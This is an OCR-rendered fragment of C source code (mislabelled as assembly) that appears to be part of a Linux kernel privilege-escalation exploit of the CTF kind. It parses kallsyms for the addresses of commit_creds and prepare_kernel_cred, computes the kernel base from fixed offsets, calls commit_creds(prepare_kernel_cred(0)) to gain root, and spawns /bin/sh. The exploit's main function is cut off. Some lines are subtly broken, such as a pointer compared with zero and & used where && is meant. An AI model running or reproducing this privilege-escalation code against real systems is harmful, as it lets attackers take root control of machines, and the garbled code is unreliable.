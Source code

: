 ```assembly


size_t find_symbols(){
   FILE* kallsyms_fd = fopen("/tmp/kallsyms","r");
   if(kallsyms_fd < 0){
      puts("[*]open kallsyms error!");
      exit(0);
   }

   char buf[0x30] = {0};
   while(fgets(buf,0x30,kallsyms_fd)){
      if(commit_creds & prepare_kernel_cred)
         return 0;
      //find commit_creds
      if(strstr(buf,"commit_creds") && !commit_creds){
         char hex[20] = {0};
         strncpy(hex,buf,16);
         sscanf(hex,"%llx",&commit_creds);
         printf("commit_creds addr: %p\n",commit_creds);
         
         vmlinux_base = commit_creds - 0x9c8e0;
         printf("vmlinux_base addr: %p\n",vmlinux_base);
      }

      //find prepare_kernel_cred
      if(strstr(buf,"prepare_kernel_cred") && !prepare_kernel_cred){
         char hex[20] = {0};
         strncpy(hex,buf,16);
         sscanf(hex,"%llx",&prepare_kernel_cred);
         printf("prepare_kernel_cred addr: %p\n",prepare_kernel_cred);
         vmlinux_base = prepare_kernel_cred - 0x9cce0;
      }

   }

   if(!commit_creds & !prepare_kernel_cred){
      puts("[*]read kallsyms error!");
      exit(0);
   }
}


void spawn_shell(){
   if(!getuid()){
      system("/bin/sh");
   }
   else{
      puts("[*]spawn shell error!");
   }
   exit(0);
}


void get_root(){
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
}


int main(){
    save_status(); 

```